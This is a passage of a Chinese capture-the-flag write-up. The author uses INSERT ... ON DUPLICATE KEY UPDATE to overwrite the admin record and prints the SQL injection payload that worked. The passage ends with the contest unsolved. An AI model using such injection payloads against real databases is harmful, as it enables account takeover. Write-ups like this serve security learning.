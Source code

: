 发现失败。尝试修改admin之外用户，发现第一次成功，同样的用户名(payload百分号之前)第二次失败，猜测是不能插入相同的记录。然后百度mysql插入覆盖之类的关键字，学到了`ON DUPLICATE KEY UPDATE`

[Mysql中INSERT ... ON DUPLICATE KEY UPDATE的实践](https://www.jianshu.com/p/78ea17c6d190)

修改payload为：

```text
admin%1$',0x36316265353561386532663662346531373233333862646466313834643664626565323963393838353365306130343835656365653766323762396166306234) ON DUPLICATE KEY UPDATE id=md5(1)-- -
至于md5，是猜出来的
```

成功成为admin。

![4](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/d9c13a06a0943be34b61eb1cebf02d17.JPG)

然后......ip要变成内网

![5](https://testt-1257276208.cos.ap-chengdu.myqcloud.com/bg/cf9cccc4a1ed48a870b0321812142d16.JPG)

离结束还有3小时，想遍了办法没搞定，结束。
